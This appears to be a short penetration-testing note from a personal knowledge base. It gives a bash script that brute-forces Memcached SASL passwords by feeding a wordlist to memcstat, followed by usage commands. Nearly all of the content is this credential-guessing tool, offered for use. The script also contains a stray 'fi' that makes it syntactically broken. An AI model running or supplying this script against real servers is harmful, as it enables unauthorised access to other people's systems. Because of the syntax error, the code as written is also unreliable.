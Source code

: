 # Memcached

## 01 - Brute Force

```bash
#!/bin/bash
while read line
do
	echo "Trying $line";
	        if memcstat --servers=$1 --username=$2 --password=$line | grep -q Server
	        then
		        echo "Password Found: "$line
		        break
		    fi
fi
done < $3
```

The script's syntax as it follows.

```
$ chmod +x brute.sh

$ ./brute.sh <IP> <username> passwords.lst
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Linux/Memcached|Active Fingerprint: Memcached]]